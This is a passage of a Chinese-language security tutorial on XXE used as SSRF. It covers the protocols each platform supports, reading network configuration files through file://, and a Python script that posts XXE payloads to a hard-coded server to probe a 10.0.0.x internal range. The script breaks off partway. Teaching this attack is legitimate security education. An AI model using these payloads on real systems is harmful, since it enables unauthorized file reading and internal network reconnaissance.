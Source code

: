    我们刚刚都只是做了一件事，那就是通过 file 协议读取本地文件，或者是通过 http 协议发出请求，熟悉 SSRF 的童鞋应该很快反应过来，这其实非常类似于 SSRF ，因为他们都能从服务器向另一台服务器发起请求，那么我们如果将远程服务器的地址换成某个内网的地址，（比如 192.168.0.10:8080）是不是也能实现 SSRF 同样的效果呢？没错，XXE 其实也是一种 SSRF 的攻击手法，因为 SSRF 其实只是一种攻击模式，利用这种攻击模式我们能使用很多的协议以及漏洞进行攻击。

   ### **新的利用：**

   所以要想更进一步的利用我们不能将眼光局限于 file 协议，我们必须清楚地知道在何种平台，我们能用何种协议

   **如图所示:**

   [![此处输入图片的描述](https://picture-1253331270.cos.ap-beijing.myqcloud.com/%E6%94%AF%E6%8C%81%E5%8D%8F%E8%AE%AE11.png)](https://picture-1253331270.cos.ap-beijing.myqcloud.com/%E6%94%AF%E6%8C%81%E5%8D%8F%E8%AE%AE11.png)

   PHP在安装扩展以后还能支持的协议：

   **如图所示：**

   [![此处输入图片的描述](https://picture-1253331270.cos.ap-beijing.myqcloud.com/%E6%94%AF%E6%8C%81%E5%8D%8F%E8%AE%AE%E6%89%A9%E5%B1%95.png)](https://picture-1253331270.cos.ap-beijing.myqcloud.com/%E6%94%AF%E6%8C%81%E5%8D%8F%E8%AE%AE%E6%89%A9%E5%B1%95.png)

   > **注意：**
   >
   > 1.其中从2012年9月开始，Oracle JDK版本中删除了对gopher方案的支持，后来又支持的版本是 Oracle JDK 1.7
   > update 7 和 Oracle JDK 1.6 update 35
   > 2.libxml 是 PHP 的 xml 支持

   ### **实验三：HTTP 内网主机探测**

   我们以存在 XXE 漏洞的服务器为我们探测内网的支点。要进行内网探测我们还需要做一些准备工作，我们需要先利用 file 协议读取我们作为支点服务器的网络配置文件，看一下有没有内网，以及网段大概是什么样子（我以linux 为例），我们可以尝试读取 /etc/network/interfaces 或者 /proc/net/arp 或者 /etc/host 文件以后我们就有了大致的探测方向了

   **下面是一个探测脚本的实例：**

   ```python
   import requests
   import base64
   
   #Origtional XML that the server accepts
   #<xml>
   #    <stuff>user</stuff>
   #</xml>
   
   
   def build_xml(string):
       xml = """<?xml version="1.0" encoding="ISO-8859-1"?>"""
       xml = xml + "\r\n" + """<!DOCTYPE foo [ <!ELEMENT foo ANY >"""
       xml = xml + "\r\n" + """<!ENTITY xxe SYSTEM """ + '"' + string + '"' + """>]>"""
       xml = xml + "\r\n" + """<xml>"""
       xml = xml + "\r\n" + """    <stuff>&xxe;</stuff>"""
       xml = xml + "\r\n" + """</xml>"""
       send_xml(xml)
   
   def send_xml(xml):
       headers = {'Content-Type': 'application/xml'}
       x = requests.post('http://34.200.157.128/CUSTOM/NEW_XEE.php', data=xml, headers=headers, timeout=5).text
       coded_string = x.split(' ')[-2] # a little split to get only the base64 encoded value
       print coded_string
   #    print base64.b64decode(coded_string)
   for i in range(1, 255):
       try:
           i = str(i)
           ip = '10.0.0.' + i
           string = 'php://filter/convert.base64-encode/resource=http://' + ip + '/'
           print string
           build_xml(string)
   ```